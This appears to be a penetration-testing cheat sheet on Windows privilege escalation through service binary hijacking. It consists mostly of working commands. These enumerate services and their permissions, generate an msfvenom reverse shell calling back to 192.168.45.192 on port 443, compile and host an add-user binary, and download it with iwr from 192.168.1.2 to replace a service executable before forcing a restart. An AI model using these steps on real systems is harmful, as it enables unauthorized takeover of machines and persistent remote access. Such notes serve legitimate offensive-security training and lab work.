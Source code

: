 ## Modify AD Groups

* Use `net groups` to add and delete users from Add group


## Hijacking Service Binaries

* Find a service binary that can be manipulated by lower privileged users
* Replace the binary with another one and run it (e.g. restart)

Find (Recon)

```powershell
# List running services
Get-CimInstance -ClassName win32_service | Select Name,Startmode,State,PathName | Where-Object {$_.State -like 'Running'}
# non-powershell
wmic service list brief
wmic service get pathname,state | findstr /i "running"

# List dependencies and permissions
Get-Service -Name Apache2.4 -DependentServices -RequiredServices
Get-ACL -Path "C:\xampp\apache\bin\httpd.exe" | Select -Expand Access
# non-powershell
icacls "C:\xampp\apache\bin\httpd.exe"

# https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
# Mask Permissions
# F  Full access
# M  Modify access
# RX Read and execute access
# R  Read-only access
# W  Write-only access
```

Replace (Exploit)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f exe
# or compile replacement file and host with http server
cd tools
x86_64-w64-mingw32-gcc win-adduser.c -o win-adduser.exe
sudo cp win-adduser.exe /var/www/html
```

```powershell
# Download and replace service
iwr -uri http://192.168.1.2/win-adduser.exe -o adduser.exe
move Path/to/file.exe mysqld.exe
move adduser.exe Path/to/file.exe

# Restart require SeShutDownPrivilege
whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled

# Restart
shutdown /r /t 0
Restart-Service mysql

# Verify attacks
```
